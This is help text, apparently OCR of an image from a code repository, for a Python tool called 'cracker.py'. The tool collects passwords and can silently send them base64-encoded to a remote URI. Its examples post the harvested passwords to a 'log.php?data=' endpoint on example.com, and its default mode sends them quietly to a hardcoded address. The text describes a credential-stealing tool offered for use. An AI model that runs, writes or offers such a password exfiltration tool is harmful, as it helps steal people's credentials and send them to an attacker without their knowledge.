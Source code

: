 Usage:
    python cracker.py [OPTIONS] [URI]
   
Parameters:
    v - be verbose
    p - print passwords to console
    s - send base64 encoded passwords to URI
    h - print this help

Examples:
    python cracker.py -vps http://www.example.com/log.php?data=
    Be extremely verbose and send passwords to specified uri

    python cracker.py -s http://example.com/log.php?data=
    Be silent and send passwords to specified uri

    python cracker.py -s
    Be silent and send passwords to hardcoded uri

    python cracker.py
    Use hardcoded properties (be silent and send to hardcoded uri)

    python cracker.py - http://example.com/log.php?data=
    Use hardcoded properties and specified uri

